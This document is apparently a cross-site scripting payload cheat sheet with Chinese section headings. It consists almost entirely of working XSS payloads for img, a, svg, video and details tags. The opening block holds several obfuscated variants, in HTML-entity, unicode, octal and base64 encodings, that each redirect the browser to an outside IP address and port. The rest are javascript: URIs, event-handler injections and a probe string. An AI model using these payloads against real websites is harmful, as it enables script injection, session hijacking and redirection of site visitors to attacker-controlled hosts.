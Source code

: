 ```
<details open ontoggle="&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:&#x64;&#x6F;&#x63;&#x75;&#x6D;&#x65;&#x6E;&#x74;&#x2E;&#x6C;&#x6F;&#x63;&#x61;&#x74;&#x69;&#x6F;&#x6E;&#x3D;'&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x31;&#x32;&#x30;&#x2E;&#x37;&#x37;&#x2E;&#x31;&#x37;&#x36;&#x2E;&#x31;&#x36;&#x38;&#x3A;&#x31;&#x31;&#x31;&#x32;&#x32;'">
<details open ontoggle=eval('\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0032\u0030\u002e\u0037\u0037\u002e\u0031\u0037\u0036\u002e\u0031\u0036\u0038\u003a\u0031\u0031\u0031\u0032\u0032\u0027') >
<svg/onload=\u0073etTimeout("\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0032\u0030\u002e\u0037\u0037\u002e\u0031\u0037\u0036\u002e\u0031\u0036\u0038\u003a\u0031\u0031\u0031\u0032\u0032\u0027")>
<details open ontoggle=eval(atob('amF2YXNjcmlwdDpkb2N1bWVudC5sb2NhdGlvbj0naHR0cDovLzEyMC43Ny4xNzYuMTY4OjExMTIyJw==')) >
<video src=1 onerror=eval(atob('amF2YXNjcmlwdDpkb2N1bWVudC5sb2NhdGlvbj0naHR0cDovLzEyMC43Ny4xNzYuMTY4OjExMTIyJw=='))>
<details open ontoggle=eval('\152\141\166\141\163\143\162\151\160\164\72\144\157\143\165\155\145\156\164\56\154\157\143\141\164\151\157\156\75\47\150\164\164\160\72\57\57\61\62\60\56\67\67\56\61\67\66\56\61\66\70\72\61\61\61\62\62\47') >
<details open ontoggle=\u0065val(atob('amF2YXNjcmlwdDpkb2N1bWVudC5sb2NhdGlvbj0naHR0cDovLzEyMC43Ny4xNzYuMTY4OjExMTIyJw==')) >
<img src=x onerror=window['eva'+'l']('\u006a\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003a\u0064\u006f\u0063\u0075\u006d\u0065\u006e\u0074\u002e\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e\u003d\u0027\u0068\u0074\u0074\u0070\u003a\u002f\u002f\u0031\u0032\u0030\u002e\u0037\u0037\u002e\u0031\u0037\u0036\u002e\u0031\u0036\u0038\u003a\u0031\u0031\u0031\u0032\u0032\u0027') >
```



**xss 简易探针**

```
`';!--"<XSS>=&{()}
```

**`img`**

```html
<img src=javascript:alert("xss")>
<IMG SRC=javascript:alert(String.formCharCode(88, 83, 83))>
<img src="URL" style='Xss:expression(alert(/xss));'>
<!--CSS标记xss-->
<img style="background-image:url(javascript:alert('XSS'))">
    
<img src="x" onerror=alert(1)>
<img src="1" onerror=eval("alert('xss')")>
    
<img src=1 onmouseover=alert('xss')>
```

**`a`**

```html
<a href="http://795204849:9999">baidu</a>

<a href="javascript:alert(1)">aa</a>
<a href=javascript:eval(alert(1))>aa</a>
<a href="javascript:aaa" onmouseover="alert(/xss/)">aa</a>

<script>alert('xss')</script>
<a href="" onclick=alert('xss')>aa</a>

<a href="" onclick=eval(alert('xss'))>aa</a>

<a href=kycg.asp>ttt=1000 onmouseover=prompt('xss') y=2018>aaa</a>
```
